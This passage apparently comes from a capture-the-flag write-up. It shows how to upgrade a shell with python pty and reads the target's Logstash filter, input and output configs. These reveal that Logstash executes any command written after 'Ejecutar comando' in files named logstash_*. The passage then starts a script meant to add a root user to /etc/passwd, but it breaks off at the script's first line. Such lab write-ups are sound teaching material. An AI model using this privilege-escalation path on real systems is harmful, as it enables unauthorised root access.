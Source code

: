 ~~~

After that, get a full shell with python command.
{% highlight shell %}
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.2$
{% endhighlight %}

Then, try to look at the files for logstash.<br>
We can refer a <a href="https://www.elastic.co/guide/en/logstash/current/pipeline.html">document</a> on the official website.<br>
filter.conf:
{% highlight shell %}
bash-4.2$ cat filter.conf
cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
{% endhighlight %}

input.conf:
{% highlight shell %}
bash-4.2$ cat input.conf
cat input.conf
input {
	file {
		path => "/opt/kibana/logstash_*"
		start_position => "beginning"
		sincedb_path => "/dev/null"
		stat_interval => "10 second"
		type => "execute"
		mode => "read"
	}
}
{% endhighlight %}

output.conf
{% highlight shell %}
bash-4.2$ cat output.conf
cat output.conf
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
{% endhighlight %}

In summerize, logstash is executing a command with following condition.
1. The name of the config file has to be matched "logstash_*"
2. the key of the command is has to be "Ejecutar comando"

<br>
Create following shell script to add a new admin user in "/etc/passwd".<br>
We have to put it into "/dev/shm" with scp command.
{% highlight shell %}
root@kali:~# cat firefart.sh 
#!/bin/bash
~~~